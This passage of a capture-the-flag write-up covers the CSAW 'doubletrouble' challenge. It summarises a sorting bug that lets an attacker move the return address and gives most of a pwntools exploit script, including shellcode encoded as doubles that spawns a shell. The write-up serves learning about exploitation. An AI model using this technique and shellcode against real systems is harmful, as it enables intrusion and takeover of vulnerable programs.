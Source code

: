 Also to find the offset from the infoleak to where our shellcode is, we can just run the exploit once with our shellcode, and see where our shellcode ends up in respect to the stack infoleak. When I did this, I found that the offset was `+0x1d8` bytes from the infoleak.

## tl ; dr

A quick overview of this challenge
```
*	Program scans in up to 64 doubles, and sorts them from smallest to largest
*	Bug in `findArray` allows us to overwrite the float count with a larger value, thus when it sorts the doubles, it will sort values past our input, allowing us to move the return address.
*	Format payload to call rop gadget, then shellcode on the stack using stack infoleak. The canary has to be within a set range. 
*	Format the shellcode to be together after the sorting
*	Brute force the stack canary untill it is within a range that wouldn't crash our exploit
```
## Exploit

putting it all together, we get the following exploit:
```
# Import the libraries
from pwn import *
import struct

# Establish the target
#target = process('./doubletrouble')
#gdb.attach(target, gdbscript='b *0x8049733')
target = remote('pwn.chal.csaw.io', 9002)

# Get the infoleak, calculate the offset to our shellcode
stack = target.recvline()
stack = stack.replace("\x0a", "")
stack = int(stack, 16)
scadr = stack + 0x1d8

# Create the integer we will create, that will be stored as the double after the ROPgadget 0x804900a, which is the first return address we put
ret = "0x8049010" + hex(scadr).replace("0x", "")
ret = int(ret, 16)

# Scan in some of the input 
target.recvuntil("How long: ")


# Etsablish the four blocks as floats, which make up our shellcode
s1 = "-9.455235083177544e-227"# 0x9101eb51e1f7c931
s2 = "-6.8282747051424842e-229"# 0x90909068732f2f68 
s3 = "-6.6994892300412978e-229"# 0x9090406e69622f68
s4 = "-1.3287388429188698e-231"# 0x900080cd0bb0e389
# shellcode does the following:
'''
   0xffff7ca0:	xor    ecx,ecx
   0xffff7ca2:	mul    ecx
   0xffff7ca4:	push   ecx
   0xffff7ca5:	jmp    0xffff7ca8
   0xffff7ca7:	xchg   ecx,eax
   0xffff7ca8:	push   0x68732f2f
   0xffff7cad:	nop
   0xffff7cae:	nop
   0xffff7caf:	nop
   0xffff7cb0:	push   0x6e69622f
   0xffff7cb5:	inc    eax
   0xffff7cb6:	nop
```